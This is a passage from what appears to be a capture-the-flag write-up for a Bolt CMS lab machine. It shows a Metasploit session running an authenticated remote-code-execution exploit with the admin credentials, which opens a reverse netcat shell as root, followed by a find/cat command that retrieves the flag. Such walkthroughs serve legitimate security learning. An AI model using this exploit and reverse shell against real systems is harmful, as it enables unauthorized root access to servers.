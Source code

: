 ```shell
msf5 > use 0
[*] Using configured payload cmd/unix/reverse_netcat
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set rhosts 10.10.8.119
rhosts => 10.10.8.119
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set lhost tun0
lhost => tun0
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set username bolt
username => bolt
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set password boltadmin123
password => boltadmin123
msf5 exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 10.11.8.219:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "lbbtn".
[*] Found 3 potential token(s) for creating .php files.
[+] Deleted file cpluqrsj.php.
[+] Deleted file plgjmnjttp.php.
[+] Used token f59556e1921741a11cde23c4f0 to create caqaiurjjz.php.
[*] Attempting to execute the payload via "/files/caqaiurjjz.php?lbbtn=`payload`"
[*] Command shell session 1 opened (10.11.8.219:4444 -> 10.10.8.119:55382) at 2020-09-21 16:48:55 -0400
[!] No response, may have executed a blocking payload!
[+] Deleted file caqaiurjjz.php.
[+] Reverted user profile back to original state.

whoami
root
```

### 8# Look for flag.txt inside the machine.

I'll run a simple find command, as we're root; running cat against any found file.

```
find / -type f -name "flag.txt" -exec cat {} \;
THM{[redacted]]}
```



